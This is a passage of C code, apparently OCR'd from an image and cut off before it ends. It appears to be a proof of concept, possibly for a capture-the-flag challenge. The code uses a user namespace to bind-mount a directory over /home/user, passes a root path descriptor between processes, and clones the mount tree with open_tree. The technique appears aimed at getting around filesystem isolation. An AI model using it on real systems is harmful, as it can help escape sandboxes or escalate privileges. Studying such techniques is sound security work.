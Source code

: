 ```C

        msg.msg_iov = &io;
        msg.msg_iovlen = 1;
        msg.msg_control = buf;
        msg.msg_controllen = sizeof(buf);

        if (recvmsg(sock, &msg, 0) < 0)
                error(1, errno, "recvmsg");

        for (cmsg = CMSG_FIRSTHDR(&msg); cmsg != NULL;
             cmsg = CMSG_NXTHDR(&msg, cmsg)) {
                if (cmsg->cmsg_level == SOL_SOCKET &&
                    cmsg->cmsg_type == SCM_RIGHTS &&
                    cmsg->cmsg_len == CMSG_LEN(sizeof(int))) {
                        int fd;
                        memcpy(&fd, CMSG_DATA(cmsg), sizeof(int));
                        return fd;
                }
        }

        error(1, errno, "recv_fd: no fds received");
        __builtin_unreachable();
}

static void do_child(int sock)
{
        int fd;

        if (unshare(CLONE_NEWUSER | CLONE_NEWNS) < 0)
                error(1, errno, "unshare(CLONE_NEWUSER | CLONE_NEWNS)");
        if (mount("none", "/", NULL, MS_REC | MS_PRIVATE, NULL) < 0)
                error(1, errno, "mount(/, MS_REC | MS_PRIVATE)");
        if (mount("/usr/lib/zapps/build", "/home/user", NULL, MS_BIND, NULL))
                error(1, errno, "mount(/home/user, MS_BIND)");

        fd = open("/", O_PATH);
        if (fd < 0)
                error(1, errno, "open(/, O_PATH)");

        send_fd(sock, fd);
        pause();
        _exit(0);
}

int main(void)
{
        int pair[2];
        pid_t child;
        int fd;

        if (socketpair(AF_UNIX, SOCK_DGRAM | SOCK_CLOEXEC, 0, pair) < 0)
                error(1, errno, "socketpair");

        child = fork();
        if (child < 0)
                error(1, errno, "fork");
        if (!child)
                do_child(pair[1]);

        fd = recv_fd(pair[0]);

        fd = syscall(SYS_open_tree, fd, "", AT_EMPTY_PATH | AT_RECURSIVE |
                     OPEN_TREE_CLONE);
```